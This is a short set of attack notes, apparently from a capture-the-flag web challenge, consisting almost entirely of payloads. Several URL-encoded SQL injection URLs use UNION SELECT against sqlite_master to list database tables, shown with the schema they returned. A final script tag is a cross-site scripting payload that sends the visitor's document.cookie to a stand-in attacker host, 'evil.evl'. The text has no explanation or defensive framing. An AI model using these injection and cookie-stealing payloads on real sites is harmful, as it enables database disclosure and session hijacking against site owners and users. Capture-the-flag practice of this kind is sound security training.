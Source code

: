 ```

https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,sql,6%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20and%20tbl_name%20NOT%20like%20%27messages%27
CREATE TABLE "users" (id INTEGER PRIMARY KEY, username CHAR(25), userimage CHAR(100), userbio CHAR(255), fname CHAR(25), lname CHAR(25)) 6 (2)

https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,sql,6%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20and%20tbl_name%20NOT%20like%20%27messages%27
CREATE TABLE thisisnotthetableyourelookingfor (id INTEGER PRIMARY KEY, nothere TEXT) 6 (2)


https://ctf.tk/ctf/game/gallery-single-post.html?id=1%20union%20select%201,2,3,4,nothere,6%20FROM%20thisisnotthetableyourelookingfor
https://ctf.tk/ctf/game/gallery-single-post.html?id=-1%20union%20select%201,2,3,4,sql,6%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20and%20tbl_name%20NOT%20like%20%27sqlite_%27%20limit%203%20offset%202;--%20-

https://ctf.tk/ctf/game/gallery-single-post.html?id=-1%20union%20select%201,2,3,4,nothere,6%20FROM%20%27thisisnotthetableyourelookingfor%27%20limit%205%20offset%204;--%20-

<script>
new Image().src="https://evil.evl/cookiemonster.php?"+document.cookie
</script>
```
